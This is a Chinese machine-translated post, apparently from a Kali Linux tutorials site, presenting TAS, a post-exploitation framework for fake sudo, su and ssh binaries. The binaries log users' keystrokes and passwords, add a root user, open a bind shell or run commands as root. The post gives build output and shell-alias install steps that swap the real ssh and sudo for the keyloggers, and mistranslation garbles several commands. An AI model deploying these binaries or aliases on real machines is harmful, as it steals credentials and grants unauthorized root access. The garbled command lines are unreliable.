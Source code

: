 # TAS:一个很小的框架，可以很容易地操纵 TTY &创建假的二进制文件

> 原文：<https://kalilinuxtutorials.com/tas/>

[![TAS : A Tiny Framework For Easily Manipulate The TTY & Create Fake Binaries](img/19aa612e5de0ff2d62b850d82a1d0bea.png "TAS : A Tiny Framework For Easily Manipulate The TTY & Create Fake Binaries")](https://1.bp.blogspot.com/-iHKUhhUSLyo/XirxcAeYmOI/AAAAAAAAElQ/67Qbqk9hR14kFu-Vlc-J1ger7RKmuJpDgCLcBGAsYHQ/s1600/generic-keylogger%25281%2529.png)

TAS 是一个很小的框架，可以很容易地操纵 tty 并创建假的二进制文件。该框架有三个主要函数，tas_execv、tas_forkpty 和 tas_tty_loop。

*   **tas_execv:** 这是一个类似于 execv 的函数，但是它并不重新执行当前的二进制文件，这对于创建假的二进制文件非常有用。
*   **tas_forkpty:** 与 forkpty 相同，但是它填充了一个自定义结构，有关更多详细信息，请查看 forkpty 手册页。
*   **tas_tty_loop:** 这里是对 tty 进行操作的地方，你可以为输入和输出设置一个钩子函数，这样就可以存储用户输入的按键或者操作终端输出。(参见 [leet-shell](https://github.com/hc0d3r/tas#leet-shell) )。

这是一个肤浅的概述，检查 tas/fakebins/fun 文件夹中的代码，了解它真正的工作原理。

**Fakebins**

通过操纵 PATH 环境变量，或者通过使用 bash 的别名(或者任何其他支持别名的 shell)，您可以运行另一个程序，而不是用户通常运行的程序。这使得捕获击键和修改命令行来改变原来的程序行为成为可能。

更改某些程序(如 sudo 和 su)的命令行会导致权限提升。

我创建了三个程序作为你可以用这个框架做什么的例子: **sudo** 、 **su** 和 **generic-keylogger** 。

**通用键盘记录器**

顾名思义， **generic-keylogger** 是一个二进制程序，它的作用就像一个键盘记录器，主要思想是用它来获取 ssh、mysql 等程序的密码。

**须藤/须**

它可以用作键盘记录器，或者你可以通过操作命令行以 root 用户身份运行一些[模块](https://github.com/hc0d3r/tas#modules)。

**逐步 cmd 变化:**

*   用户键入`**sudo cmd**`
*   `**fakesudo cmd**`运行
*   fakesudo 执行`**sudo fakesudo cmd**`

在作为 root 运行之后，fakesudo 创建一个子进程来执行一些模块，在主 PID 中，它运行原始命令。

**注意:** fakesudo 只在用户运行`sudo cmd [args]`时改变命令，如果使用了一些额外的标志，那么命令不会被触动。

几乎同样的过程发生在**苏**身上:

*   用户键入`**su -**`
*   `**fakesu -**`运行
*   fakesu 执行`**su - -c fakesu**`

作为 root 运行后，fakesu 创建一个子进程来执行一些模块，在主 PID 中，它运行`bash -i`

**注意:** fakesu 只在用户运行`su`或`su -`时改变命令，如果使用了一些附加标志，则命令不会被触动。

**也读作-[电报刮刀:电报组刮刀工具](https://kalilinuxtutorials.com/telegram-scraper/)**

**模块**

目前，只有三个模块:

*   **add-root-user**–使用/etc/passwd 中的密码创建一个 root 用户。
*   **bind-shell**–监听传入的连接并生成一个 tty shell。
*   **系统**–以 root 用户身份执行命令。

以后我还可以添加更多的模块，但是如果你熟悉 C 语言，我相信以 root 身份修改程序运行你想运行的东西并不是很难，只需要修改几行代码，更改`super()`函数就可以了。

**大楼**

首先，构建基础库:

**$ make
CC .obj/globals.o
CC .obj/getinode.o
CC .obj/tas-execv.o
CC .obj/tty.o
CC .obj/xreadlink.o
AR .obj/libtas.a**

之后，您可以通过运行`**make [target-bin]**`来构建**通用键盘记录器**、 **sudo** 或 **su**

**举例:**

**$ make su
make[1]:进入目录'/home/test/tas/fake bins/su '
[+]配置 fakesu …
启用键盘记录程序？【y/N】y
记录行数【empty = store all】:
log file(default:/tmp/. keys . txt):
用一些好玩的模块？[y/N] n
[+]在/home/test/tas/fake bins/su/config . h
CC su
make[1]:离开目录'/home/test/tas/fake bins/su '**

**例题**

**制造假货:**

**编译:**

$ make generic-key logger
make[1]:进入目录'/home/test/tas/fake bins/generic-key logger '
[+]配置 generic-keylogger …
要记录的行数[empty = store all]: 3
logfile(默认:/tmp/.keys.txt):
[+]在/home/test/tas/fake bins/generic-key logger/config . h
CC generic-key logger
make[1]:离开目录'/home/keys

**安装:**

**$ mkdir ~/。bin $ cp 通用键盘记录器~/。bin/ssh
$ echo "别名 ssh='
$HOME/。bin/ssh'" > > ~/。巴沙尔**

**行动中:**

![](img/9fa28c78859d6a3698ae8d5679128e52.png)

**使用绑定外壳模块**

**编译:**

make[1]:进入目录'/home/test/tas/fake bins/sudo '
[+]配置 fakesudo …
启用键盘记录器？
使用一些有趣的模块？[y/N]y
[1]add-root-user
[2]bind-shell
[3]system
[4]cancel
>2
监听端口(默认值:1337): 5992
[+]在/home/test/tas/fakebins/sudo/config . h
CC sudo
make[1]:离开目录'/home/test/tas/fake bins/sudo '

**安装:**

**$ cp sudo ~/。sudo $ echo " alias sudo = '
$ HOME/。>须藤' "> ~/。巴沙尔**

**行动中:**

![](img/bea65f23aee77bd72a0752e0ab5f18f9.png)

**注释**

有些事情会使假程序无法按预期工作:

*   白名单 sudo 命令。
*   /proc/un valiable(/proc/self/exe 用于获取二进制全名)。

在 fakesudo 中使用键盘记录功能时，sudo 将始终要求输入密码。

**如何保护自己？**

这是一种后利用技术，用于执行权限提升和信息收集，如果您想保护自己，不被入侵是一个很好的开始…

[**Download**](https://github.com/hc0d3r/tas)